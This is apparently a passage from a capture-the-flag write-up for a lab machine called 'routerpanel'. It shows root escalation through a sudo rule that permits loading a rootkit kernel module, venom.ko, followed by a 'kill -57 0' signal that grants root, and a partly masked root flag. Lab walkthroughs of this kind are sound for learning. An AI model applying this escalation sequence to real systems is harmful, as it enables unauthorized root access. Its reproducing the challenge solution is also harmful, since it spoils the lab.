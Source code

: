 <br>
<h3>sudo</h3>

```bash
athena@routerpanel:~$ sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```

<br>

```bash
:~/Athena# scp -i id_rsa athena@10.201.101.47:/mnt/.../secret/venom.ko .
venom.ko                                                                                             100%  493KB   2.8MB/s   00:00                
```

<h3>Ghidra</h3>

<img width="1116" height="748" alt="image" src="https://github.com/user-attachments/assets/72873824-327e-49d4-b53e-87fd84542f32" />


<img width="1211" height="564" alt="image" src="https://github.com/user-attachments/assets/81296c5e-7ccf-4677-a2c4-4f7f1d1c204b" />

<br>

```bash
:~/Athena# scp -i id_rsa athena@xx.xxx.xxx.xx:/mnt/.../secret/venom.ko .
venom.ko                     
```

<br>

```bash
athena@routerpanel:~$ sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
```

<br>

```bash
athena@routerpanel:~$ kill -57 0
```

<br>

```bash
athena@routerpanel:~$ id
uid=0(root) gid=0(root) groups=0(root),1001(athena)
```

<br>

```bash
athena@routerpanel:~$ cat /root/root.txt
********************a2315030bd48
```
